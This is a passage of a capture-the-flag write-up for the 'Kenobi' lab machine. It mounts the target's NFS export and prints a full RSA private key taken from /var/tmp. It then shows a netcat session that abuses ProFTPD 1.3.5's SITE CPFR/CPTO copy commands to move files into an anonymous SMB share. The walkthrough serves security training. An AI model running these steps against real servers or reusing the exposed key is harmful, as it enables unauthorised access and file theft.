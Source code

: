 Lets mount the /var/tmp directory to our machine

mkdir /mnt/kenobiNFS  
mount MACHINE_IP:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS

![](https://i.imgur.com/v8Ln4fu.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----

```


![](https://i.imgur.com/Vy4KkEl.png)

### What is Kenobi's user flag (/home/kenobi/user.txt)?

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.185.64 21                
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.185.64]
SITE CPFR /home/kenobi/user.txt
350 File or directory exists, ready for destination name
SITE CPTO /home/kenobi/share/user.txt
250 Copy successful
QUIT
221 Goodbye.

┌──(root㉿kali)-[~]
└─# smbclient //10.10.185.64/anonymous
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon May  1 07:15:48 2023
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  user.txt                            N       33  Mon May  1 07:15:48 2023
```